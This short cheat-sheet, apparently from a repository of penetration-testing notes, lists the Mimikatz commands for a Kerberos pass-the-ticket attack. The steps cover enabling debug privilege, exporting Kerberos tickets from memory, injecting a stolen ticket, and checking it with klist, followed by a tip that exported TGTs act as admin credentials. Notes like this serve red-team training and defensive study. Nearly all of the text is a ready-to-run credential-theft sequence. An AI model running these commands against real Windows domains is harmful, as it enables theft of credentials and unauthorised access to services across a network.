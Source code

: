 ### Tool: Mimikatz


#### 1) privilege::debug

#### 2) sekurlsa::tickets /export

#### 3) kerberos::ptt TICKET.kirbi

#### klist

## TIP: TGTs = Admin Credentials.

#### Access to any service the user is allowed to access.

## TGSs=Low-privileged account
